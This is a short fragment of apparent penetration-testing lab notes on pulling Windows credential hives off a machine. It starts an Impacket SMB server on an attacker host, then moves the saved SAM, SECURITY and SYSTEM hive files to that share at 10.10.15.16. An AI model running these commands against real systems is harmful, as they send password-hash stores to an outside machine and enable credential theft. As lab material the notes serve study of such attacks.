 
```shell-session
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

/home/ltnbob/Documents/ mi share
## Move

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```